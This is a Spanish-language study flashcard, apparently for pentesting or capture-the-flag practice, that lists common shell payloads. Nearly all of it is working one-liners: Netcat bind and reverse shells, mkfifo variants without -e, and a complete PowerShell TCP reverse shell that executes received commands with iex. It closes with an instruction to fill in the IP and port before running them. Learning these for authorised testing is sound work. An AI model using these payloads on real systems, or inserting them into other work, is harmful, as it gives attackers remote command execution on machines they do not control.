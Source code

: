 **Flashcard – Common Shell Payloads**

**Pregunta:** ¿Cuáles son comandos comunes para generar bind shells y reverse shells con Netcat y PowerShell?
**Respuesta:**

**Bind shell con Netcat (con `-e`):**

```bash
nc -lvnp <PUERTO> -e /bin/bash
```

**Bind shell sin `-e` (Linux moderno):**

```bash
mkfifo /tmp/f; nc -lvnp <PUERTO> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

**Reverse shell con Netcat (con `-e`):**

```bash
nc <IP_LOCAL> <PUERTO> -e /bin/bash
```

**Reverse shell sin `-e` (Linux moderno):**

```bash
mkfifo /tmp/f; nc <IP_LOCAL> <PUERTO> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

**Reverse shell en PowerShell (Windows Server):**

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PUERTO>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Reemplazar `<IP>` y `<PUERTO>` antes de ejecutar.

**Referencia útil:** [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) contiene variantes en múltiples lenguajes.
